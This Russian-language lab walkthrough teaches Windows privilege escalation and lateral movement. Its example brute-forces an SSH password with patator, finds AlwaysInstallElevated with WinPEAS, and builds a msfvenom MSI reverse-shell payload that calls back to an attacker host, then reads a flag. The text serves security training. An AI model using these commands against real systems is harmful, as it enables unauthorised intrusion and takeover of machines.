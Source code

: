 ### Основные понятия

**Горизонтальное перемещение** (lateral movement) — один из этапов атаки на организацию, во время которого
злоумышленник,
уже сумевший проникнуть внутрь корпоративной инфраструктуры и закрепиться в ней, начинает продвигаться по сети от точки
входа (например, скомпрометированного устройства или аккаунта) к другим объектам.

**Домен** – это основная административная единица в сетевой инфраструктуре предприятия, в которую входят все сетевые
объекты, такие как пользователи, компьютеры, принтеры, общие ресурсы и т.д. Совокупность (иерархия) доменов называется
лесом. У каждой компании может быть внешний и внутренний домен.

**Контроллер домена (domain controller)** — сервер, управляющий доступом к сетевым ресурсам в рамках одного домена (
группы
сетей или хостов, объединенных общими политиками безопасности). Контроллер домена осуществляет аутентификацию
пользователя в домене, то есть позволяет ему входить в сеть с помощью одной и той же пары логин-пароль с любого
включенного в домен компьютера, на котором это не запрещено политиками безопасности или локальными настройками.

### Разбор базового примера

Вы получили доступ к машине с ОС Windows, и ваша задача — поднять свои привилегии до максимальных и собрать данные для
последующего их использования на других машинах.

Ход действий

1. Просканируем Windows-систему на открытые порты с помощью nmap:

$ nmap -Pn -n -F -sV --open 10.8.0.14

2. Для получения первичного доступа предпримем попытку перебора паролей ssh с помощью утилиты patator.

Patator – это инструмент, позволяющий установить соединение с сервером и перебирать пароли, используя словари паролей
или списки паролей, которые можно настроить для каждого протокола. Patator также позволяет настроить параметры задержки
между попытками аутентификации, что позволяет снизить вероятность блокировки учетных записей.

$ patator ssh_login

Настроим patator на перебор SSH-паролей для пользователя john, при этом отфильтруем все сообщения, включающие в себя
строку “Authentication failed” чтобы видеть только успешные попытки входа.

$ patator ssh_login host=10.8.0.14 user=john password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:
mesg='Authentication failed.'

Путем перебора получаем верный пароль: loveme1

3. Подключимся к Windows-машине по ssh:

$ ssh john@10.8.0.14

john@WIN10> whoami

john@WIN10> dir

4. Для автоматического поиска вектора для повышения привилегий используем утилиту WinPEAS:

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

WinPEAS может автоматически определять наличие открытых портов, установленные программы и службы, запланированные
задачи, наличие уязвимых файловых разрешений, настройки UAC (User Account Control) и другие уязвимости привилегий в
операционной системе.

Использование WinPEAS может значительно упростить процесс поиска уязвимостей привилегий и повысить эффективность и
скорость анализа безопасности системы.

Скачаем актуальную версию WinPEAS под 64-разрядные ОС на локальную машину:

$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20230413-7f846812/winPEASx64.exe

5. Передадим файл на удаленную машину по SSH с помощью scp и запустим файл:

$ scp winPEASx64.exe john@10.8.0.14:C:\\Users\\John\\

john@WIN10> winPEASx64.exe

6. Рассмотрим вывод утилиты: наибольшее внимание стоит обращать на выделенное красным. Последовательно просматривая
   возможные вектора, обратим внимание на AlwaysInstallElevated:

Это политика, позволяющая устанавливать любые msi-пакеты с повышенными правами. Это значит, что, если мы сгенерируем
полезную нагрузку в этом формате, то при её запуске она будет работать от имени NT AUTHORITY\SYSTEM, что дает нам полные
привилегии на этой машине.

7. Сгенерируем полезную нагрузку в формате msi с помощью msfvenom, полезной нагрузкой будет обратное shell-соединение на
   нашу машину:

$ msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi

8. Отправим полезную нагрузку на удаленную машину с помощью SCP:

$ scp tmp/rev.msi john@10.8.0.14:C:\\Users\\John\\

9. Подготовим хэндлер для получения shell-соединения с помощью msf:

$ msfconsole

10. Используем метаэксплойт exploit/multi/handler, необходимый для принятия соединений от полезных нагрузок в случае,
    если их запуск идет независимо от применения RCE-эксплойтов самого msf. Укажем выбранный payload и адрес, на котором
    он будет ожидать подключения:

msf6> use exploit/multi/handler

msf6> options

msf6> set PAYLOAD windows/x64/shell_reverse_tcp

msf6> set LHOST 10.8.0.28

11. Проверим, что удаленная система доступна по RDP:

$ nmap -Pn -n -p 3389 -sV --open 10.8.0.14

12. Подключимся к удаленной системе по RDP, используя xfreerdp – свободный RDP-клиент с консольным интерфейсом, укажем
    пользователя, пароль, хост и удобную нам ширину экрана:

$ xfreerdp /u:john /p:loveme1 /w:768 /v:10.8.0.14

13. Запускаем инсталлятор:


14. После получения соединения в msf выполним базовую разведку и убедимся, что обладаем максимальными правами, после
    чего прочтем флаг:

> whoami

> cd C:\Users\michael\Desktop

> type root.txt
>

### Общие принципы

В рамках основных принципов повышения привилегий мы рассмотрим 2 этапа:

- Повышение привилегий на отдельной машине Windows
- Горизонтальное перемещение в сети с Windows машинами 

#### Основные категории методов повышения привилегий

- Использование физического доступа: например, когда вы получаете прямой доступ на уровне диска и изменяете пароль в
файловой системе
- Извлечение секретов и учетных данных: с получением различных прав доступа в Windows становится возможным извлекать
секреты и учетные данные из различных хранилищ
- Эксплуатация уязвимостей конфигурации ОС Windows: невероятно большое количество служб и сервисов в Windows должны быть
корректно настроенными или отключенными, чтобы не дать доступа злоумышленнику воспользоваться недостаткам настройки
- Эксплуатация известных уязвимостей ОС Windows: ежегодно в Windows обнаруживают и устраняют десятки и сотни уязвимостей,
благодаря которым эксплуатация становится возможной, если система не обновлена до последней версии
- Даже при категоризации уязвимостей и недостатков, приводящих к возможности повышения привилегий в WIndows, количество
методов внутри этих категорий невероятно большое. Назвать все эти методы будет сложно, поэтому мы рассмотрим только
наиболее яркие из них, чтобы дать понять, какие ситуации могут возникать в каждой из категорий.